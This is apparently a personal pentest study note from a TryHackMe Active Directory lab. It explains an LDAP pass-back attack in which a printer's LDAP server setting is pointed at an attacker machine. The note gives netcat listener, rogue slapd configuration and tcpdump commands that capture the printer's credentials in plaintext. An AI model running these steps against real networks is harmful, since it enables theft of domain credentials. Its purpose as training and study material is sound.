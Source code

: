 # Passback Attacks


## LDAP

- Imagine we have a printer in the network. In the example on tryhackme we have access to the setting page. It has a login page so we can alter the Server IP and put ours instead  
![login page](../.res/2022-07-26-10-44-46.png)  
- `nc -lvp 389`
- We get a connection back when sending the form  
![netcat](../.res/2022-07-26-10-46-12.png)  
- However as mentioned in the room:  
"The `supportedCapabilitiesresponse` tells us we have a problem. Essentially, before the printer sends over the credentials, it is trying to negotiate the LDAP authentication method details. It will use this negotiation to select the most secure authentication method that both the printer and the LDAP server support. If the authentication method is too secure, the credentials will not be transmitted in cleartext. With some authentication methods, the credentials will not be transmitted over the network at all! So we can't just use normal Netcat to harvest the credentials. We will need to create a rogue LDAP server and configure it insecurely to ensure the credentials are sent in plaintext."

- `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
- `sudo dpkg-reconfigure -p low slapd` to configure the LDAP server
- We then have to make a file `olcSaslSecProps.ldif`

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

- `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`

- `sudo tcpdump -SX -i eth0 tcp port 389` (we need to replace eth0 with the appropriate interface)
- And we should get the password, just like in our example from tryhackme:  
![](../.res/2022-07-26-16-52-21.png)

## Resources

{% embed url="https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/" %} A Pen Tester’s Guide to Printer Hacking {% endembed %}
{% embed url="https://tryhackme.com/room/breachingad" %} Breaching AD - TryHackMe{% endembed %}

